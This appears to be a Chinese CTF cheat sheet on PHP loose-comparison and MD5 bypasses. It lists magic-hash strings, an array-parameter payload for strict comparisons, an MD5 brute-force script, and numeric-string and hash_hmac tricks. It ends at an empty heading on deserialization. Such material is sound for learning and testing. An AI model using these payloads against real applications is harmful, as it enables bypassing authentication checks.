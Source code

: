 - MD5 碰撞：两个不同的字符串 MD5 哈希值相等


**php弱类型比较: 构造md5值为0e开头的科学计数法**

```PHP
if ($name != $password && md5($name) == md5($password))
```

payload：

```Plain
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
```

**php强类型比较: 构造数组**

```PHP
if ($name !== $password && md5($name) === md5($password))
// 0e字符串无法绕过 而 md5 函数传入数组的返回值都是NULL
```

payload：

```Plain
url: password[]=2&name[]=1
```

**MD5哈希爆破**

```python
from hashlib import md5
for i in range(10000000):
    if md5(str(i).encode('utf-8')).hexdigest() == 'xxxx':
        print(i)
```

**字符绕过**

```PHP
if (!is_numeric($a) && !is_numeric($b)) { // a和b不是数值
    if ($a == 0 && md5($a) == $b[$a]){}
} // 可以通过 a = false = 0

if($a > 99) // a = 100abc也可通过且可绕过in_numeric
```

**哈希函数绕过**

```php
hash_hmac('sha256', $a, $b); // $a为数组时，加密结果固定为NULL
```



### 反序列化漏洞

**序列化**
